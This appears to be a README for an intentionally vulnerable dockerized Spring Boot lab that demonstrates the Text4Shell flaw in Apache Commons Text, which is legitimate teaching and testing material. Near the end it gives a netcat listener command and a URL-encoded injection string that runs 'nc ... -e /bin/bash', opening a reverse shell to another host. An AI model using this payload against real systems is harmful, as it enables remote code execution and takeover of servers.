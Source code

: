 # Text4Shell
### Vulnerable dockerized Spring Boot Application

This is a vulnerable Spring Boot application that is used to demonstrate the Text4Shell vulnerability. <br>
More information can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2022-42889) <br>
Run the application using the following command:
```bash
docker build -t text4shell_app .
docker run -p 8080:8080 text4shell_app
```

The image is based on:
- [Alpine Linux](https://alpinelinux.org/)
- [OpenJDK 11](https://openjdk.java.net/)

The application is based on:
- [Spring Boot](https://spring.io/projects/spring-boot)
- [Apache Commons Text](https://commons.apache.org/proper/commons-text/)

Netcat (nmap-netcat) and bash are used to simulate a reverse shell scenario.

Use in WSL2:
```bash
nc -nvlp 8000
```
```bash
http://localhost/exploit?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%20172.27.22.30%208000%20-e%20%2Fbin%2Fbash%27%29%7D
```
Check for ip address with:
```bash
ip addr
```
--> eth0